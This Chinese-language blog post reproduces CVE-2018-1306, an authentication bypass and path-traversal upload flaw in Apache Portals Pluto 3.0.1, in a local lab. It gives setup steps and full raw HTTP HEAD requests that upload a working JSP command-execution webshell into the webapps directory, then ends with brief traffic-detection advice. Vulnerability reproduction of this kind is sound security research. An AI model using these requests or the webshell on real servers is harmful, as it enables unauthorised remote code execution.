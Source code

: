 ```yaml
---
layout: post
title:  "Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306) " 
date:   2019-08-05 11:03:16
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306)
cover: '/assets/img/posts/apacheplutobanner.png'
---
```


## Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306)

### 漏洞概述

Apache Pluto 使用 Web.xml 中的安全约束配置来控制对资源的访问，但是其中的安全约束配置存在缺陷，攻击者可以绕过身份验证。安全约束配置中，Pluto 定义了 GET、POST、PUT 方法，由于未列出 HEAD 方法，因此可以使用 HTTP HEAD 方法来绕过安全约束策略。

并且 PortletV3AnnotatedDemo Multipart Portlet war 文件代码未限制和验证文件上传路径，攻击者可以利用"../"来自定义上传文件的保存路径。 利用两个设计缺陷进行配合，攻击者可以上传任意文件到任意文件目录，从而能获取服务器的 webshell。

### 漏洞环境搭建

* 从 github clone 最新的源码 ：
  
  git clone https://github.com/apache/portals-pluto.git pluto

* 切换分支到 3.0.1 版本
  
  git checkout pluto-3.0.1

* 安装环境（ant 自动安装）
  
  ant -f dist-build.xml -DincludeDemos=true -DnoClean=true

* 启动环境
  
  进入到/pluto/target/dist/XXX/bin 文件夹下，XXX 为项目版本的文件夹
  
  运行 startup.sh(\*nix)startup.bat(win)

### 漏洞复现

使用 burp 发送以下请求到 Apache Pluto：

```javascript
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 727

--XX
Content-Disposition: form-data; name="file"; filename="jspshell.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='jspshell.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX-- 
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 748

--XX
Content-Disposition: form-data; name="file"; filename="../../../webapps/pluto/qiuge.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='qiuge.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX--
```

webshell 使用：http://172.16.5.146:8080/pluto/qiuge.jsp?cmd=hostname

### 流量分析

如果可以检测到对 `/pluto/portal/File%20Upload/**pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/**ac0` 上传 jsp ，则可以判断为攻击行为，可以通过进一步检测是否存在类似 `../../../webapps/pluto/qiuge.jsp` 的 filename 值 来判断是否是利用本漏洞进行利用 
